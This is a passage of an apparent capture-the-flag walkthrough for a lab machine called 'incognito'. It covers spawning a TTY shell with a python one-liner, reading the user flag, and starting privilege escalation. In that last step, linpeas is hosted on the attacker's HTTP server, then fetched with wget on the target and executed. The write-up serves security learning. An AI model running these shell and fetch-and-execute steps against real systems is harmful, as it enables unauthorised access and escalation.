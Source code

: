Great! It worked. We can use the same python one-liner to spawn a TTY shell:

~~~
$ python3 -c "import pty;pty.spawn('/bin/bash')"
ArthurMorgan@incognito:/$ 
~~~

## User Flag

Now we are user `ArthurMorgan` and we can go ahead and read the user flag, which is located in this user's home directory (we could read it as www-data too.):

~~~
ArthurMorgan@incognito:/$ cd
ArthurMorgan@incognito:~$ ls -la
total 32
drwxr-xr-x 6 ArthurMorgan ArthurMorgan 4096 May 28  2021 .
drwxr-xr-x 4 root         root         4096 Mar 21  2021 ..
lrwxrwxrwx 1 root         root            9 Mar 23  2021 .bash_history -> /dev/null
drwx------ 2 ArthurMorgan ArthurMorgan 4096 Mar 21  2021 .cache
drwxr-x--- 3 ArthurMorgan ArthurMorgan 4096 Mar 21  2021 .config
drwx------ 4 ArthurMorgan ArthurMorgan 4096 Mar 21  2021 .gnupg
-rw-r--r-- 1 ArthurMorgan ArthurMorgan   56 Mar 21  2021 ideas
drwxrwxr-x 3 ArthurMorgan ArthurMorgan 4096 Mar 21  2021 .local
-rw-r--r-- 1 ArthurMorgan ArthurMorgan   33 Mar 21  2021 user.txt
ArthurMorgan@incognito:~$ cat user.txt
ae39f419ce0[REDACTED]5aaa7e446ff
~~~

User flag: `ae39f419ce0[REDACTED]5aaa7e446ff`

## Privilege Escalation

Now we need to escalate to the other user on the machine or even root. To speedup the enumration process of the target machine, we can upload an enumeration tool lile `linpeas`, which you can download [here](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh).

Let's use it then. After downloading it, you can start a python http server, where the script is located, so you can download it on the target machine:

Your machine:

~~~
└─$ sudo python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
~~~

Now we download it on the target machine, mark it as executable, and then run it (I like to use `-a` switch to get more info):

~~~
ArthurMorgan@incognito:~$ cd /tmp
ArthurMorgan@incognito:/tmp$ wget http://<YOUR IP>:8000/linpeas.sh
ArthurMorgan@incognito:/tmp$ chmod +x linpeas.sh
ArthurMorgan@incognito:/tmp$ ./linpeas.sh -a
~~~
